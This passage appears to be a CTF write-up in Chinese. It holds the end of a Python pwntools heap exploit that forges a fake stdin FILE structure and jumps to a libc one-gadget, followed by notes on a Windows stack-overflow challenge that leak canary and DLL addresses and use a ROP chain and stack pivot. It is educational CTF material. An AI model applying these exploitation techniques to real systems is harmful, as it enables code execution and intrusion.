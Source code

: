 ```python=
            write_adr, write_adr,
            write_adr + size, 0x0000000000000000,
            0x0000000000000000, 0x0000000000000000,
            0x0000000000000000, 0x0000000000000000,
            0x0000001000000000, 0xffffffffffffffff,
            0x0000000000000000, lock,
            0xffffffffffffffff, 0x0000000000000000,
            0x00007fced5aadae0, 0x0000000000000000,
            0x0000000000000000, 0x0000000000000000,
            0x00000000ffffffff, 0x0000000000000000,
            0x0000000000000000, vtable]


    #free_got = prog_base + 0x201f70
    #read_adr = free_got
    #size = 6
    #buf = flat(0xfbad2887, read_adr, read_adr, read_adr,
    #        read_adr, read_adr + size, read_adr + size,
    #        read_adr, read_adr + 1, 0, 0, 0, 0, 0, 1, -1, 0,
    #        lock, -1, 0, 0, 0, 0, 0, -1)
    buf = flat(*fake_stdin)
    assert b'\n' not in buf[:-1]
    buf += b'\n'
    new_note(0, 0xf0, buf)
    del_note(0)
    new_note(-2, 0xf0, b'\n')
    libc -= 0x3d000
    new_note(0, 9, p64(libc + 0x4f322))
    del_note(0)



if __name__ == '__main__':
    context.arch = 'amd64'
    connect = 'nc eductf.zoolab.org 20005'
    connect = connect.split(' ')
    if len(sys.argv) > 1:
        proc = remote(connect[1], int(connect[2]))
    else:
        proc = process(['./nonono'], env={'LD_LIBRARY_PATH': './'})
    exploit()
    proc.interactive()
```

## BlueNote

* windows pwn 簡單的 overflow 但是在 windows 上 Orz
* 可以新增五個 note (0~4), 滿了之後會問你要複寫調哪個 note 這時的 index 可以給 5 就能做 stack buffer overflow
* 可以 leak canary, program base, kernel32.dll, ntdll.dll (一開始以為 ntdll 不能 leak 然後又因為 local, remote 用的 dll 不一致 debug 超久QQ)
* ROP 讀 flag.txt (堆 ROP 堆到差點沒死)
* 用 xchg eax, ecx; ret; 把上個 function 的回傳值放到 ecx 給下個 function 用
* windows api calling convention: func(rcx, rdx, r8, r9, stack...)
* 做 stackpivoting 的時候發現 program 本身的 bss 段太小 (0x1000) windows api 初始化的時候 rsp 會減超大(好像)所以換到 ntdll 上才成功
